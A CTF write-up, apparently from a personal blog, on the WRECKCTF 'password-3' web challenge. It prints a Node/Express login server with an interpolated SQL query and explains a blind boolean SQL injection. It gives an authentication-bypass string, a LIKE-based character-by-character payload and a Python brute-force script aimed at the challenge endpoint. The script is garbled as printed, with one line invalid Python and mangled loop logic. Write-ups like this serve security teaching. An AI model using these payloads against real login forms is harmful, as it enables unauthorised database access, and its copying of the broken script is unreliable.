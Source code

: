```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "password-3"
date: 2022-11-03 10:00:00
tags: [WRECKCTF, web]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


A quick but interesting proof-of-concept demonstrating that security by obscurity does not and will never work. Even if you don't show reflected feedback from SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Let's take a look at the server-side code:
```js
const crypto = require('crypto')
const database = require('better-sqlite3')
const express = require('express')
const app = express()

FLAG = process.env.FLAG ?? 'flag{testflag}'
const db = new database(':memory:')
const id = () => crypto.randomBytes(16).toString('hex')

app.use(express.static('public'))
app.use(express.json())

app.post('/password', (req, res) => {
    const password = (req.body.password ?? '').toString()
    const result = db.prepare(
        `SELECT password FROM passwords WHERE password='${password}';`
    ).get()

    if (result) res.json({
        success: true,
        message: (
            'Congrats on logging in! However, that\'s not enough... can you ' +
            'find the flag in the database this time?'
        ),
    })
    else res.json({ success: false })
})

db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)

  

app.listen(3000)
```

And here's what the JavaScript looks like on the frontend:
```js
form.addEventListener('submit', async (event) => {
	event.preventDefault();
	const input = document.querySelector('input[type="text"]');
	const response = await fetch('/password', {
	  method: 'POST',
	  headers: { 'content-type': 'application/json' },
	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()
	if (result.success) {
	  const content = document.querySelector('.content')
	  content.textContent = result.message;
	} else {
	  input.removeAttribute('style');
	  input.offsetWidth;
	  input.style.animation = 'shake 0.25s';
	}
  });
```

We can see that after clicking the `Login` button, our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string 

```SQL
SELECT password FROM passwords WHERE password='${password}';
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
 `Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code, we see:
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character, with the server returning a valid logged-in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected `password` variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Here's a quick bruteforce script to run this exploit iteratively on the `/password` endpoint:

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
    for char in possibilities: 
        print("Trying: " + flag + payload + char) 
        password = f"' OR password LIKE '{flag + payload + char}%" 
        print(password) 
        r = requests.post(url, json={"password": password}) 
        print(r.text) 
        if r.text.find("Congrats") != -1: 
            payload += char if payload[-1] == "}": 
            exit() 
        break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag, but it nonetheless iterates through all the previous characters and gets the necessary part of the flag.

## Challenge Analysis
This was a quick and simple challenge, but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to expose sensitive information from the backend.

The challenge provided us with the source code for the server, making it almost immediately apparent what had to be done. However, even without source code, this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to read data from other tables on the database if not secured properly, leading to much larger-scale data leaks than a single flag in a single table.